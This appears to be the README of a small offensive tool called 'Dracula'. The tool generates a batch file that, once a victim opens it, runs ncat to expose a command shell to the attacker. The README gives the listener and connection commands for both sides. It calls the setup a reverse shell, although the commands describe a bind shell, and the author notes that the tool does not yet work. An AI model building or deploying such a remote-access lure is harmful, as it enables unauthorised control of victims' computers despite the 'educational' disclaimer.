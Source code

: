 **THIS IS ONLY FOR EDUCATIONAL PURPOSES, DO NOT USE THIS**
NOTE TO SELF: THIS DOESNT WORK FOR SOME REASON, FIX THAT

```
        _____                       _       
        |  __ \                     | |      
        | |  | |_ __ __ _  ___ _   _| | __ _ 
        | |  | | '__/ _` |/ __| | | | |/ _` |
        | |__| | | | (_| | (__| |_| | | (_| |
        |_____/|_|  \__,_|\___|\__,_|_|\__,_|

```

This is a project i whipped up in like a single day lol, work in progress

# How it Works
uses ncat command to give reverse shell access to the attacker once the client opens the batch file.

# How to Use
1. Run the dracula.py file and enter the required info
2. A batch file is generated 

### **Attacker's Side**

set up a listener using ncat and wait for the client to open the batch file.

```
ncat IP_ADDR_CLIENT PORT
```
replace the IP_ADDR_CLIENT with ip addr of client and PORT with port used in the attack

### **Client's Side**
Once the client opens the batch file, following command is executed
```
ncat -l -p PORT -e SHELL 
```
